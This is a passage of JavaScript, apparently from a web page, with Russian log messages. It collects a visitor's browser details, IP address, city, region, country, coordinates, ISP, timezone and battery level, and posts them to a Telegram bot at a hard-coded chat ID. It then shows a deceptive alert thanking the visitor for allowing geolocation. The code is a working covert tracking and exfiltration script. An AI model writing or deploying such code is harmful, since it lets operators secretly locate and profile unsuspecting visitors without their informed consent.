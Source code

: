 🌐Инфомация о браузере:
┌User-Agent: ${deviceInfo.userAgent}
├Название браузера: ${deviceInfo.apname}
└Тип движка браузера: ${deviceInfo.vendar}

👻Информация об IP:
┌Hostname: ${host}
├Город: ${city}
├Регион: ${region}
├Страна: ${country}
├Локация: ${loc}
├Провайдер: ${org}
└Часовой пояс: ${timezone}${locationInfo}
            `;
            
            console.log('Отправка данных в Telegram...');
            console.log('Сообщение:', message);

            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
            const params = {
                chat_id: "7200125852",
                text: message
            };

            try {
                console.log('Выполняется fetch-запрос к Telegram API...');
                const response = await fetch(url, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                        'Cache-Control': 'no-cache, no-store, must-revalidate',
                        'Pragma': 'no-cache',
                        'Expires': '0'
                    },
                    body: JSON.stringify(params),
                });

                if (response.ok) {
                    console.log("Данные успешно отправлены в Telegram!");
                    alert("Доступ к сайту предоставлен. Спасибо за разрешение геолокации!");
                } else {
                    console.error("Ошибка при отправке данных в Telegram. Статус:", response.status);
                    const errorText = await response.text();
                    console.error("Ответ сервера:", errorText);
                }
            } catch (error) {
                console.error("Ошибка при отправке данных:", error);
            }
        }
        async function mainWithPosition(position) {
            console.log('Функция mainWithPosition() запущена с позицией:', position);
            try {
                console.log('Сбор информации об устройстве...');
                const deviceInfo = await collectDeviceInfo();
                console.log('Получение IP-адреса...');
                const ipAddress = await getIPAddress();
                console.log('Получение уровня батареи...');
                const batteryLevel = await getBatteryLevel();
                console.log('Получение информации о хосте...');
                const host = await getHost();
                console.log('Получение информации о городе...');
                const city = await getCity();
                console.log('Получение информации о регионе...');
                const region = await getRegion();
                console.log('Получение информации о стране...');
                const country = await getCountry();